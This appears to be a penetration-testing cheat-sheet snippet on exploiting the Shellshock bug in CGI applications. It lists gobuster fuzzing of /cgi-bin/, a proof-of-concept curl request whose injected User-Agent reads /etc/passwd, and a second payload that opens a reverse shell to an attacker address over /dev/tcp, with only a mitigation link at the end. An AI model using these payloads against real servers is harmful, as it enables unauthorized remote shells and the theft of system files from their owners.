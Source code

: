 ## Attacking Common Gateway Interface (CGI) Applications - Shellshock

Fuzzing using gobuster (for example)
```bash
$ gobuster dir -u http://$TARGET/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
$ curl -i http://$TARGET/cgi-bin/FILE.cgi

# poc 
$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://$TARGET/cgi-bin/access.cgi
$ curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/$tun0/7777 0>&1' http://$TARGET/cgi-bin/access.cgi
```

Mitigation :
https://www.digitalocean.com/community/tutorials/how-to-protect-your-server-against-the-shellshock-bash-vulnerability